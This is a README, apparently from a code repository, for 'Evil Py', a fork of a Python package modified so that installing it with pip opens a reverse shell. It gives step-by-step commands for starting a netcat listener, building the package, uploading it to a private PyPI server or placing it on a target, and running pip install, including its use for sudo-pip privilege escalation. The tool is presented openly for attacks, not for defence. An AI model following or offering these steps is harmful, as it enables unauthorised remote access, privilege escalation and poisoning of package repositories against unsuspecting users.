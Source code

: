 # Evil Py
This is a fork of a python package MSF Payload developed by sn0wfa11.

It has been modified to chin off the MSF payload and instead deploy a simple reverse shell. It deploys it a private pip respoitory, but the option remains for it to be sued locally for sudo pip privesc

It also drops some requirements to make it easier to wield.

Python users need to be aware that packages installed via `pip` have the ability to execute python code as part of the install process. This can be leveraged in situations where an attacker is able to execute pip commands remotely or for privilege escalation when a low priv user has sudo rights to `pip` or root's suid bit is set. 

Credit to the original author... https://github.com/sn0wfa11


Target a PyPi Server
====================
- Start a nc listener
```
 nc -lknp <port> &
```
- Install the package build process dependencies
```
python -m pip install --user --upgrade setuptools wheel
```
- Modify the provided .pypirc file with your private repo detai;s
```
[distutils]
index-servers = private-repository

[private-repository]
repository = http://<server>:<port>
username = <username>
password = <password>

```
- Deploy

```
python3 setup.py sdist upload -r private-repository
```

Target a local machine or a remote machine with PIP access
=====================
- Start a nc listener
```
 nc -lknp <port> &
```
- Install the package build process dependencies
```
python -m pip install --user --upgrade setuptools wheel
```
```
python setup.py sdist bdist_wheel
```
- Grab the .tar.gz file out of the /dist folder and place this on your target. 
  - There may be multiple ways to get the package to the target... but that's for you to research. ;)
- Run `pip install evil_py-<version>.tar.gz`
